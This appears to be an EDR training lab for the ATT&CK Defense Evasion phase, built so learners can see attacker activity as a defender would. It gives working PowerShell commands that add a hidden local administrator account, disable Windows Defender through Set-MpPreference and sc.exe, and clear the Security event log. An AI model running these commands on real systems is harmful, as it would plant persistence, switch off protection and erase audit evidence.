 ```yaml
---
Title: ATT&CK - Defense Evasion Phase
Description: Introduce post-compromise attack behaviors and EDR defenses
Author: Chris Gerritz, Datto
Created: 04/07/2025
Achievements:
Duration: 10
Range:
- Windows
Applications:
- Terminal (Command prompt)
- PowerShell
- Datto EDR
- SysInternals
- Office
- Adobe Reader
External:
- attack.mitre.org
- allitshop.infocyte.com
- 
---
```


## Description

The purpose of these labs is to introduce post-compromise attack behaviors and EDR defenses. We will perform post-compromise behaviors that an attacker would run once they compromised a system within the network.  This system has Datto EDR installed for monitoring so we will be able to view these commands from the defender's perspective as well.

Lab 4 is a light touch on some Defense Evasion techniques (such as disabling antivirus or defensive products). These techniques are often layered on the other techniques and phases to help hide that activity. In any case, when it comes to EDR and continuous monitoring, oftentimes we can use the presence of these evasion techniques as detection or confirmation that the user performing suspicious behaviors is indeed a threat.

---

## Objectives
<!--
- List all objectives for this lab
- Need at least three objectives
- Use blooms taxonomy verbs: KNOWLEDGE,UNDERSTAND, APPLY, ANALYZE, EVALUATE, CREATE
- https://www.teachthought.com/critical-thinking/blooms-taxonomy-verbs-2/
-->
1. Understand the Defense Evasion phase activities an attacker might utilize
2. Demonstrate Defense Evasion skills to disable antivirus and allow us to bring down additional malware utilities without being detected
3. Understand how we can use Defense Evasion activities to identify or confirm malicious intent

## Requirements

|                  |                             |
|------------------|-----------------------------|
| **Range**        | Windows |
| **Applications** | All applications needed     |
| **Needed Files** | None |



## Instructions

Open a new terminal using `c:\Users\Public\rat.exe` or you can use the same terminal from the previous lab. You will be copying and pasting the lab commands into this terminal session.  If you close this window, remember to re-open `c:\Users\Public\rat.exe` before running any of the labs.

w> All labs require you to be running as an administrator. 


> *While most defensive evasion will be used alongside other techniques to hide them, an explicit defense evasion phase usually will happen where the attacker will disable security tools and logging.*

### 1. Creating a new user via net.exe
*Attackers will often create users on the machine and attempt to escalate the privledges to manipulate the machine. A common technique is to use the net.exe process to silently create new users as well as escalate privleges to local administrator rights.*

[ATT&CK T1136.001-Create Account-Local Account](https://attack.mitre.org/techniques/T1136/001/)
- Copy and paste this command into the terminal:
```Powershell
Write-Host -ForegroundColor Cyan "Initiating Persistence...creating local account"
Write-Host "Creating user 'notahacker' with admin rights..."

$n = Get-Random -Minimum 100 -Maximum 1000

$cmd = @(
    "net user notahacker Password123! /add",
    "net localgroup administrators notahacker /add",
    "Start-Sleep -Milliseconds $n"
) -join "; "

powershell.exe -NoP -Command $cmd

Write-Host -ForegroundColor Green "'notahacker' added to Administrators group successfully."
```

*Verify user was created.*

```Powershell
net users
```

*If command ran correctly should return*

```
User accounts for \\[USER-WORKSTATION]
-------------------------------------------------------------------------------
Administrator            DefaultAccount           Guest
notahacker               [youraccount]                 WDAGUtilityAccount
```

### 2.Hiding the attacker from userlist - Defense Evasion
*Attackers will also make attempts to conceal the account, the command below, will alter the registry keys to remove the user from the userlist screen on a login screen*

- [ATT&CK T1564.002-Hide user from userlist](https://attack.mitre.org/techniques/T1564/002/)
- Copy and paste this command into the terminal:
```Powershell
$n = Get-Random -Minimum 100 -Maximum 1000
$cmd = "reg add 'HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\SpecialAccounts\UserList' /t REG_DWORD /f /d 0 /v 'notahacker'; Start-Sleep -Milliseconds $n"
powershell.exe -NoP -Command "$cmd"
Write-Host -ForegroundColor Green "'notahacker' removed from userlist."
```

### 3.Use Powershell to perform a **Disable Security Tools** technique
*The method we'll demonstrate today is to disable Windows Defender, often an attacker will use a script to detect and disable whatever AV is on the system. This action requires administrator privileges. This command may not work directly if tamper protection is enabled but there are methods an attacker can use to bypass tamper protection as well.*

- [ATT&CK T1089 - Defense Evasion - Disabling Security Tools](https://attack.mitre.org/techniques/T1089)
- Copy and paste this command into the terminal:
```PowerShell
Write-Host -ForegroundColor Cyan "Initiating Defense Evasion - T1089 - Disabling Security Tools"
Write-Host "Disabling Defender..."
$cmd = @"
Set-MpPreference -DisableRealtimeMonitoring $true
Start-Sleep -Milliseconds $n
"@
powershell.exe -nop -command $cmd
```

### 4. Disabling Security Tools - Service Control Manager
> *If the above method does not work, attackers can also disable the antivirus service from the service control manager using sc.exe*

Use the Service Control Manager (sc.exe) to perform a **Disable Security Tools** technique
- [ATT&CK T1089 - Defense Evasion - Disabling Security Tools](https://attack.mitre.org/techniques/T1089)
- Copy and paste this command into the terminal:
```PowerShell
Write-Host -ForegroundColor Cyan "Initiating Defense Evasion - T1089 - Disabling Security Tools"
Write-Host "Disabling Defender..."
$cmd = @"
sc.exe config WinDefend start= disabled
sc.exe stop WinDefend
Start-Sleep -Milliseconds $n
"@
powershell.exe -nop -command $cmd
Write-Host -ForegroundColor Red "Windows Defender Disabled"
```

### 5. Removing Evidence of Activity - wevtutil.exe clear logs
*After completing certain tasks, or as part of a script, users wil conceal their tracks in an attempt to hide their activity*

- [ATT&CK T1070.001 - Defense Evasion - Windows Event Logs Cleared](https://attack.mitre.org/techniques/T1070/001/)
- Copy and paste this command into the terminal:
```PowerShell
Write-Host -ForegroundColor Cyan "Clearing Security Logs"
$cmd = @"
wevtutil.exe cl Security
Start-Sleep -Milliseconds $n
"@
powershell.exe -nop -command $cmd
Write-Host -ForegroundColor Cyan "Logs Cleared"
```
